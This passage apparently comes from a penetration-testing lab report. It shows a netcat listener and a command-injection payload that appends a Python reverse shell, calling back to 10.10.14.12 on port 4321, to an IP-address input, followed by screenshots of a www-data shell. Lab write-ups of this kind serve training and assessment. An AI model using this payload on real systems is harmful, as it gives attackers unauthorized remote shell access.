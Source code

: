 Start a reverse shell listener on the attacker machine:

```txt
nc -lvnp 4321
```

The Payload:

```txt
8.8.8.8;export RHOST="10.10.14.12";export RPORT=4321;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

![insert reverse shell payload](screenshots-storage/insert_reverse_shell_payload.png)

We recive a shell on our attacker machine:

![reverse shell](screenshots-storage/pop_www-data_shell.png)

\newpage

**Local.txt Proof Screenshot**

![local.txt](screenshots-storage/local.txt.png)
